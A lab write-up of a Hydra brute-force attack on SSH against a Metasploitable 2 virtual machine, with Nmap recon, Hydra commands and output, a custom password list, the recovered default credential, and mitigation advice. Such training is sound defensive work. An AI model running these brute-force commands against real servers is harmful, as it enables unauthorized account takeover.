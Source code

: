 # Brute Force SSH Login Using Hydra

## Objective

Simulate a brute-force attack against an SSH service using Hydra to test password strength and understand the risks of weak or default credentials.

## Target Information

- **Target Machine:** Metasploitable 2
- **IP Address:** 192.168.56.102
- **Service:** SSH (Port 22)
- **Known User:** `msfadmin`

## Tools Used

- Kali Linux
- Hydra (pre-installed in Kali)
- RockYou password list: `/usr/share/wordlists/rockyou.txt`
- Nmap (for recon)
- Custom wordlist: `quicklist.txt`

## Lab 
### STEP 1

Ensure Metasploitable 2 is powered on and reachable from Kali. Confirm SSH is enabled on the target:

```bash
nmap -sS -sV -O 192.168.56.102
nmap -p 22 192.168.56.102
```
![image](https://github.com/user-attachments/assets/5f925245-1d15-41b4-b92c-2439563e5ed1)
Confirm that SSH is running and reachable (I did a little extra)

### STEP 2 

Enable SSH client compatibility in Kali (After SSH atttept failed)

Failed SSH attempt
```bash
──(kali㉿kali)-[/usr/share/wordlists]
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:11:17
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ERROR] could not connect to ssh://192.168.56.102:22 - kex error : no match for method server host key algo: server [ssh-rsa,ssh-dss], client [ssh-ed25519,ecdsa-sha2-nistp521,ecdsa-sha2-nistp384,ecdsa-sha2-nistp256,sk-ssh-ed25519@openssh.com,sk-ecdsa-sha2-nistp256@openssh.com,rsa-sha2-512,rsa-sha2-256]
``` 
Enable SSH Client
```bash
sudo kali-tweaks
```
Go to Hardening
![Screenshot 2025-07-01 134802](https://github.com/user-attachments/assets/63042173-8d77-438f-aa07-a7d134811899)


Toggle SSH Client
![Screenshot 2025-07-01 134826](https://github.com/user-attachments/assets/6494ba13-6efb-436c-8727-83577d01b8e5)
![Screenshot 2025-07-01 134815](https://github.com/user-attachments/assets/32e5b084-6d0a-4c21-b3d1-084391714d56)

This allows Hydra to connect to legacy SSH servers like Metasploitable 2

### STEP 3
Attempting RockYou (Too large)

```bash
hydra -l msfadmin -P /usr/share/wordlists/rockyou.gz ssh://192.168.56.102
```
Failed (Cancelled) due to large size

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt.gz  ssh://192.168.56.102

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:34:48
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 216.00 tries/min, 216 tries in 00:01h, 14344191 to do in 1106:49h, 8 active
 [STATUS] 208.00 tries/min, 624 tries in 00:03h, 14343783 to do in 1149:21h, 8 active
```
Realized I needed to uncompress file

```bash
sudo gzip -d /usr/share/wordlists/rockyou.txt.gz
```

### STEP 4

Create a faster wordlist

```bash
echo -e "msfadmin\nadmin\npassword\n123456\nletmein\nkali" > quicklist.txt
```

### STEP 5
Run Hydra with optimization flags (Run Hydra with decompressed RockYou)

```bash
hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f
```
Result

```bash
┌──(kali㉿kali)-[~]
└─$ hydra -l msfadmin -P quicklist.txt ssh://192.168.56.102 -t 4 -V -f

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 13:39:05
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 4 tasks per 1 server, overall 4 tasks, 6 login tries (l:1/p:6), ~2 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "msfadmin" - 1 of 6 [child 0] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "admin" - 2 of 6 [child 1] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "password" - 3 of 6 [child 2] (0/0)
[ATTEMPT] target 192.168.56.102 - login "msfadmin" - pass "123456" - 4 of 6 [child 3] (0/0)
[22][ssh] host: 192.168.56.102   login: msfadmin   password: msfadmin
[STATUS] attack finished for 192.168.56.102 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-07-01 13:39:15
```
Success!

Run with uncompressed RockYou

```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6   
```

Result (still too long)
```bash
└─$ hydra -l msfadmin -P /usr/share/wordlists/rockyou.txt ssh://192.168.56.102 -t 6       

Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-07-01 14:04:24
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
-I
[DATA] max 6 tasks per 1 server, overall 6 tasks, 14344399 login tries (l:1/p:14344399), ~2390734 tries per task
[DATA] attacking ssh://192.168.56.102:22/
[STATUS] 162.00 tries/min, 162 tries in 00:01h, 14344237 to do in 1475:45h, 6 active
```

## Analysis
- Brute-forcing with Hydra is effective when credentials are weak
- Custom wordlists reduce time, increase efficiency in lab settings
- rockyou.txt is too large for quick testing and isn’t practical here
- The target accepted a known default credential (msfadmin:msfadmin)

## Mititgation Recommedations
- Enforce strong passwords
- Disable default accounts or rename them
- Limit SSH access (IP whitelisting, firewall)
- Use tools like Fail2Ban to detect and block repeated login attempts
- Consider disabling password-based login in favor of key-based auth
